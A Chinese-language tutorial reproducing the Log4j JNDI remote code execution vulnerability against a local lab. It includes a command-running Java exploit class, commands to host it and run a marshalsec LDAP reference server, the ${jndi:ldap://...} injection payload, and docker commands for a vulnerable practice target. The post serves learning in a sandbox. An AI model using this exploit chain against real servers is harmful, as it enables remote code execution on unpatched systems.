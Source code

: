 # Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。



这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

```
python3 -m http.server 8100
```

![](https://files.mdnice.com/user/5230/536968c2-57ad-4ea7-bcd1-6333d148c118.png)







然后用**[marshalsec](https://github.com/mbechler/marshalsec)** IDAP服务，项目地址：https://github.com/mbechler/marshalsec

```
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```

![](https://files.mdnice.com/user/5230/fc5dbacb-4d97-457e-8bc9-ee87f49c824f.png)



漏洞类

```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}

```

## 最后运行

![](https://files.mdnice.com/user/5230/504c49b8-b495-4e79-9afc-37d8a2934b59.png)



演示视频：

https://www.bilibili.com/video/bv1WP4y137PP


## 漏洞靶场

为了互联网的安全，也为了给大家学习的环境，有很多同学不知道如何复现，我搭建了一个漏洞靶场，我编写的docker-compose.yml 

地址是：https://github.com/fengxuangit/log4j_vuln

或者直接运行命令

```
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh 
```

然后访问你的8080的端口，按照视频教程玩就行。你的靶场你自己随便玩！





